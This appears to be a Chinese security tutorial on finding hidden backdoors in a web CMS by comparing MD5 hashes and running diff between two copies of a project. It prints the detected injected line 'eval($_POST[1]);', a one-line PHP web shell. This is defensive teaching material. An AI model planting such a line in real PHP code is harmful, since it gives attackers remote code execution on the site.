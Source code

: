 ## 排查隐藏后门：

### 1\. 文件 MD5 校验：

```bash
def md5sum(file):
    m=hashlib.md5()
    if os.path.isfile(file):
        f=open(file,'rb')
        for line in f:
            m.update(line)
        f.close
    else:
        m.update(file)
    return (m.hexdigest())
```

对比前后文件哈希，找到修改的文件

### 2\. diff 命令寻找差异文件

diff 经常用来比较两个文本文件，所以可以通过一行命令快速找出两个项目文件的差异。

```bash
diff -c -a -r cms1 cms2
```

[![](assets/1705982098-f48c5a693b3560ff83bcc81f250b5eb4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121101332-accaf2d6-b802-1.png)

-   `*** 1/index.php 2024-01-21 00:57:00.115969882 +0800`：表示原始文件（旧版本）的路径和修改时间。
-   `--- html/index.php 2024-01-21 00:56:00.243088661 +0800`：表示新版本文件的路径和修改时间。
-   `***************`：分隔符，标记接下来的内容是两版文件之间的不同之处。
-   `*** 1,4 ****`：表示在原始文件中从第 1 行到第 4 行的内容。
-   `--- 1,5 ----`：表示在新版本文件中从第 1 行到第 5 行的内容。

```bash
+ eval($_POST[1]);
这一行前带有加号 "+"，意味着这是在新版本 html/index.php 文件中新添加的一行代码
```
